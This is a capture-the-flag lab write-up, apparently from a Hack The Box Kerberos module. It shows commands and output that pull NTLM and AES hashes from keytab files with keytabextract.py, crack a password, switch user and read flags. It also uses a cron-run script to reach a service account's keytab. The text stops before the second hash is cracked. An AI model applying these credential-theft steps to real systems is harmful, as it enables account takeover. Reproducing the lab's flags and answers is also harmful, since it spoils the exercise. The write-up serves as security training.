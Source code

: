 4. Extract the hashes from the keytab file you found, crack the password, log in as the user and submit the flag in the user's home directory.
```shell
> python3 /opt/keytabextract.py /opt/specialfiles/carlos.keytab
[*] RC4-HMAC Encryption detected. Will attempt to extract NTLM hash.
[*] AES256-CTS-HMAC-SHA1 key found. Will attempt hash extraction.
[*] AES128-CTS-HMAC-SHA1 hash discovered. Will attempt hash extraction.
[+] Keytab File successfully imported.
	REALM : INLANEFREIGHT.HTB
	SERVICE PRINCIPAL : carlos/
	NTLM HASH : a738f92b3c08b424ec2d99589a9cce60
	AES-256 HASH : 42ff0baa586963d9010584eb9590595e8cd47c489e25e82aae69b1de2943007f
	AES-128 HASH : fa74d5abf4061baa1d4ff8485d1261c4
	
Crack the NTLM Hash with crackstation:
Password of carlos: Password5 

> su - carlos@inlanefreight.htb
password:

carlos > cat flag.txt
C@rl0s_1$_H3r3
```

5.  Check Carlos' crontab, and look for keytabs to which Carlos has access. Try to get the credentials of the user svc_workstations and use them to authenticate via SSH. Submit the flag.txt in svc_workstations' home directory.

```shell
As carlos user:
> crontab -l
*/5 * * * * /home/carlos@inlanefreight.htb/.scripts/kerberos_script_test.sh

> cat /home/carlos@inlanefreight.htb/.scripts/kerberos_script_test.sh


----
#!/bin/bash
kinit svc_workstations@INLANEFREIGHT.HTB -k -t /home/carlos@inlanefreight.htb/.scripts/svc_workstations.kt
smbclient //dc01.inlanefreight.htb/svc_workstations -c 'ls'  -k -no-pass > /home/carlos@inlanefreight.htb/script-test-results.txt
----

> ls -la /home/carlos@inlanefreight.htb/.scripts/
-rw------- 1 carlos@inlanefreight.htb domain users@inlanefreight.htb  246 Oct  9 12:55 svc_workstations._all.kt
-rw------- 1 carlos@inlanefreight.htb domain users@inlanefreight.htb   94 Oct  9 12:55 svc_workstations.kt

This keytab does not contain NTLM hash after verification but svc_workstations._all.kt does have a NTML hash inside:

> python3 /opt/keytabextract.py /home/carlos@inlanefreight.htb/.scripts/svc_workstations._all.kt
[*] RC4-HMAC Encryption detected. Will attempt to extract NTLM hash.
[*] AES256-CTS-HMAC-SHA1 key found. Will attempt hash extraction.
[*] AES128-CTS-HMAC-SHA1 hash discovered. Will attempt hash extraction.
[+] Keytab File successfully imported.
	REALM : INLANEFREIGHT.HTB
	SERVICE PRINCIPAL : svc_workstations/
	NTLM HASH : 7247e8d4387e76996ff3f18a34316fdd
	AES-256 HASH : 0c91040d4d05092a3d545bbf76237b3794c456ac42c8d577753d64283889da6d
	AES-128 HASH : 3a7e52143531408f39101187acc80677
	
Crack hash with crackstation:
```